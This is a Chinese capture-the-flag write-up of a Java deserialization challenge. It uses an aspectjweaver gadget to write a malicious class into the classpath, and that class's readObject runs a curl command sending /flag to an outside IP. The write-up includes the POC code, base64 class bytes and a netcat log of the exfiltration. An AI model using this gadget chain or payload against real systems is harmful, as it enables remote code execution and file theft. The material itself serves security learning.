


# 2021-CISCN-fianl-ezj4va

## 前言

去年国赛决赛的0解Java，后来出现在了`DASCTF八月挑战赛`，当时不太会Java所以没有看，今天找个时间复现了一下。

## 代码审计

访问`/robots.txt`得到文件名可以下载到源码。

`pom.xml`：

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>ciscn.fina1</groupId>
    <artifactId>ezj4va</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <packaging>jar</packaging>

    <properties>
        <maven.compiler.source>1.8</maven.compiler.source>
        <maven.compiler.target>1.8</maven.compiler.target>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>8.5.38</version>
        </dependency>

        <dependency>
            <groupId>org.aspectj</groupId>
            <artifactId>aspectjweaver</artifactId>
            <version>1.9.5</version>
        </dependency>

        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.72</version>
        </dependency>
    </dependencies>

    <build>
        <finalName>ezj4va</finalName>
        <resources>
            <resource>
                <directory>src/main/webapp</directory>
                <targetPath>META-INF/resources</targetPath>
                <includes>
                    <include>*.*</include>
                </includes>
            </resource>

            <resource>
                <directory>src/main/resources</directory>
                <includes>
                    <include>**/*.*</include>
                </includes>
            </resource>
        </resources>
        <plugins>
            <plugin>
                <groupId>org.codehaus.mojo</groupId>
                <artifactId>appassembler-maven-plugin</artifactId>
                <version>2.0.0</version>
                <configuration>
                    <assembleDirectory>target</assembleDirectory>
                    <programs>
                        <program>
                            <mainClass>ciscn.fina1.ezj4va.launch.Main</mainClass>
                        </program>
                    </programs>
                </configuration>
                <executions>
                    <execution>
                        <phase>package</phase>
                        <goals>
                            <goal>assemble</goal>
                        </goals>
                    </execution>
                </executions>
            </plugin>
        </plugins>
    </build>

</project>

```

简单审计之后知道的是，存在反序列化漏洞，依赖中有`aspectjweaver`但是没有`CommonsCollections`。

## 写文件

对于整个chain：

```
Gadget chain:
HashSet.readObject()
    HashMap.put()
        HashMap.hash()


            TiedMapEntry.hashCode()
                TiedMapEntry.getValue()
                    LazyMap.get()


                        SimpleCache$StorableCachingMap.put()
                            SimpleCache$StorableCachingMap.writeToPath()
                                FileOutputStream.write()

```

其实是要调用`SimpleCache$StorableCachingMap.put()`，可以发现这里：

```java
    @Override
    public Cart addToCart(String skus, String oldCartStr) throws Exception {
        Cart toAdd =(Cart) Deserializer.deserialize(skus);
        Cart cart=null;
        if(oldCartStr!=null)
            cart= (Cart) Deserializer.deserialize(oldCartStr);
        if(cart==null)
            cart=new Cart();

        if(toAdd.getSkuDescribe()!=null){
            Map skuDescribe = cart.getSkuDescribe();
            for(Map.Entry<String,Object> entry:toAdd.getSkuDescribe().entrySet()){
                skuDescribe.put(entry.getKey(),entry.getValue());
            }
        }
```

`skuDescribe`和`entry`反序列化之后都可控，所以可以直接触发`put()`实现任意写，POC：

```java
        Class clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor declaredConstructor = clazz.getDeclaredConstructor(String.class,int.class);
        declaredConstructor.setAccessible(true);
        //Map<String,Object> expMap = (Map<String,Object>)declaredConstructor.newInstance("./WEB-INF/classes/ciscn/fina1/ezj4va/domain/", 123);
        Map<String,Object> expMap = (Map<String,Object>)declaredConstructor.newInstance("./target/classes/", 123);

        Cart cart = new Cart();
        Field skuDescribeField = Cart.class.getDeclaredField("skuDescribe");
        skuDescribeField.setAccessible(true);
        skuDescribeField.set(cart,expMap);

        Cart toAdd = new Cart();
        Map<String,Object> fileMap = new HashMap<>();
        String content = "yv66vgAAADQAJgoACQAVCgAWABcHABgIABkIABoIABsKABYAHAcAHQcAHgcAHwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApyZWFkT2JqZWN0AQAeKExqYXZhL2lvL09iamVjdElucHV0U3RyZWFtOylWAQAKRXhjZXB0aW9ucwcAIAEAClNvdXJjZUZpbGUBAAlFdmlsLmphdmEMAAsADAcAIQwAIgAjAQAQamF2YS9sYW5nL1N0cmluZwEABy9iaW4vc2gBAAItYwEAH2N1cmwgaHR0cDovLzEyMS41LjE2OS4yMjM6Mzk4NzYMACQAJQEABEV2aWwBABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAIAAkAAQAKAAAAAgABAAsADAABAA0AAAAhAAEAAQAAAAUqtwABsQAAAAEADgAAAAoAAgAAAAUABAAGAAIADwAQAAIADQAAADcABQACAAAAG7gAAga9AANZAxIEU1kEEgVTWQUSBlO2AAdXsQAAAAEADgAAAAoAAgAAAAkAGgAKABEAAAAEAAEAEgABABMAAAACABQ=";
        fileMap.put("Evil.class",Base64.getDecoder().decode(content));
        skuDescribeField.set(toAdd,fileMap);

        System.out.println(Base64.getEncoder().encodeToString(SerializeUtil.serialize(cart)));
        System.out.println(Base64.getEncoder().encodeToString(SerializeUtil.serialize(toAdd)));

        Evil evil = new Evil();
        System.out.println(Base64.getEncoder().encodeToString(SerializeUtil.serialize(evil)));
```

## rce

然后就是写一个恶意类的class，把命令执行写到readObject里面，然后把.class写到classpath中，再利用反序列化这个类实现rce。本地是打通了，远程感觉压根写不进去，感觉classpath根本不是`./target/classes/`，迷。。。


--------------------------------------------------分割线---------------------------------------------

后来偶然发现buu上这题还上了加固，直接ssh连上去看了一下，发现`./`目录不是`/app/`目录，而是`/app/bin`目录，导致写错了。

改成`/app/target/classes/`即可。

写Evil.java：

```java
import java.io.Serializable;

public class Evil implements Serializable {
    private void readObject(java.io.ObjectInputStream s) throws Exception{
        Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","curl http://121.5.169.223:39555 -F file=@/flag"});
    }
}

```

```shell
javac Evil.java
cat Evil.class|base64 -w 0
```

```java
        Class clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor declaredConstructor = clazz.getDeclaredConstructor(String.class,int.class);
        declaredConstructor.setAccessible(true);
        Map<String,Object> expMap = (Map<String,Object>)declaredConstructor.newInstance("/app/target/classes/", 123);

        Cart cart = new Cart();
        Field skuDescribeField = Cart.class.getDeclaredField("skuDescribe");
        skuDescribeField.setAccessible(true);
        skuDescribeField.set(cart,expMap);

        Cart toAdd = new Cart();
        Map<String,Object> fileMap = new HashMap<>();
        String content = "yv66vgAAADQAJgoACQAVCgAWABcHABgIABkIABoIABsKABYAHAcAHQcAHgcAHwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApyZWFkT2JqZWN0AQAeKExqYXZhL2lvL09iamVjdElucHV0U3RyZWFtOylWAQAKRXhjZXB0aW9ucwcAIAEAClNvdXJjZUZpbGUBAAlFdmlsLmphdmEMAAsADAcAIQwAIgAjAQAQamF2YS9sYW5nL1N0cmluZwEABy9iaW4vc2gBAAItYwEALmN1cmwgaHR0cDovLzEyMS41LjE2OS4yMjM6Mzk1NTUgLUYgZmlsZT1AL2ZsYWcMACQAJQEABEV2aWwBABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAIAAkAAQAKAAAAAgABAAsADAABAA0AAAAdAAEAAQAAAAUqtwABsQAAAAEADgAAAAYAAQAAAAMAAgAPABAAAgANAAAANwAFAAIAAAAbuAACBr0AA1kDEgRTWQQSBVNZBRIGU7YAB1exAAAAAQAOAAAACgACAAAABQAaAAYAEQAAAAQAAQASAAEAEwAAAAIAFA==";
        fileMap.put("Evil.class",Base64.getDecoder().decode(content));
        skuDescribeField.set(toAdd,fileMap);

        System.out.println(Base64.getEncoder().encodeToString(SerializeUtil.serialize(cart)));
        System.out.println(Base64.getEncoder().encodeToString(SerializeUtil.serialize(toAdd)));

        Evil evil = new Evil();
        System.out.println(Base64.getEncoder().encodeToString(SerializeUtil.serialize(evil)));
```

先往classpath里面写Evil.class，然后再反序列化Evil类即可。






```shell
root@VM-0-6-ubuntu:~/java/jndi# nc -lvvp 39555
Listening on [0.0.0.0] (family 0, port 39555)
Connection from 117.21.200.166 18524 received!
POST / HTTP/1.1
Host: 121.5.169.223:39555
User-Agent: curl/7.58.0
Accept: */*
Content-Length: 235
Content-Type: multipart/form-data; boundary=------------------------2f8c76b85a50abe1

--------------------------2f8c76b85a50abe1
Content-Disposition: form-data; name="file"; filename="flag"
Content-Type: application/octet-stream

flag{c3b9785bd11defffc900569c778bd61c}

--------------------------2f8c76b85a50abe1--


```

## 参考链接

https://www.anquanke.com/post/id/249651#h2-5